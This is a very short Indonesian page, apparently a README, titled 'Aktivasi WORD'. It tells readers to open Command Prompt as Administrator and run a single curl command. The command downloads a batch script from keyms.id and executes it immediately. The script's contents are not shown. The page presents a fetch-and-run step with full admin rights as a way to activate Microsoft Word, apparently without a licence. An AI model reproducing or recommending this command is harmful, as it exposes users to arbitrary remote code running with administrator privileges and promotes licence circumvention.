 # Aktivasi WORD

## Aktivasi WORD, buka Command Prompt (CMD) sebagai Administrator, lalu salin dan jalankan perintah di bawah ini:

```cmd
curl -L keyms.id/aso -o aso.cmd & aso.cmd
